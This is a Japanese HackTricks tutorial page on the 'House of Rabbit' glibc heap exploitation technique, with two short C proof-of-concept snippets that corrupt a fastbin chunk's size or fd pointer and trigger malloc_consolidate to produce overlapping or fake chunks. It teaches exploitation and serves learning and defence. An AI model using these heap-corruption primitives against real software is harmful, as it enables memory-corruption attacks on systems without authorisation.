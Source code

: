 # ハウス・オブ・ラビット

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を使って、ゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい** または **HackTricks をPDFでダウンロードしたい場合は** [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) のコレクションを見つける
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f) に参加するか、[**telegramグループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** をフォローする。**
* **ハッキングテクニックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

### 必要条件

1. **Fastbinのfdポインターまたはサイズを変更する能力**：これは、fastbin内のチャンクの前方ポインターまたはサイズを変更できることを意味します。
2. **`malloc_consolidate`をトリガーする能力**：これは、大きなチャンクを割り当てるか、トップチャンクをマージすることによって行うことができます。これにより、ヒープがチャンクを統合するようになります。

### ゴール

1. **重複するチャンクを作成する**：他のチャンクと重なるように1つのチャンクを作成し、さらなるヒープ操作を可能にします。
2. **偽のチャンクを作成する**：アロケーターをだますために、偽のチャンクをヒープ操作中に正当なチャンクとして扱わせます。

## 攻撃の手順

### POC 1: Fastbinチャンクのサイズを変更する

**目的**: fastbinチャンクのサイズを操作して、重複するチャンクを作成します。

* **ステップ1: チャンクを割り当てる**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
* **ステップ 2: チャンクを解放する**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
* **ステップ 3: チャンクサイズの変更**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
* **ステップ 4: `malloc_consolidate`をトリガーする**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
大きなチャンクを割り当てると、`malloc_consolidate` 関数がトリガーされ、fastbin 内の小さなチャンクがマージされます。`chunk1` の操作されたサイズにより、`chunk2` と重なるようになります。

統合後、`chunk1` は `chunk2` と重なり、さらなる悪用が可能になります。

### POC 2: FD ポインタの変更

**目的**: fastbin の fd ポインタを操作してフェイクチャンクを作成します。

* **ステップ 1: チャンクの割り当て**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**説明**: 2つのチャンクを割り当て、1つは小さく、もう1つは大きくして、フェイクチャンクのためにヒープをセットアップします。

* **ステップ2: フェイクチャンクの作成**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
* **ステップ 3: チャンク1を解放する**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**説明**: `chunk1`を解放し、それをfastbinリストに追加します。

* **ステップ4: Chunk1のFDを修正**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**説明**: `chunk1`の前方ポインタ（fd）を`chunk2`内のフェイクチャンクを指すように変更します。

* **ステップ5: `malloc_consolidate`をトリガーする**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
再度大きなチャンクを割り当てると、`malloc_consolidate` がトリガーされ、フェイクチャンクが処理されます。

フェイクチャンクはファストビンリストの一部となり、さらなる悪用のための正当なチャンクとなります。

### 要約

**House of Rabbit** テクニックは、ファストビンチャンクのサイズを変更して重複するチャンクを作成するか、fdポインタを操作してフェイクチャンクを作成することを含みます。これにより、攻撃者はヒープ内で正当なチャンクを偽造し、さまざまな形式の悪用を可能にします。これらの手順を理解し、実践することで、ヒープの悪用スキルを向上させることができます。
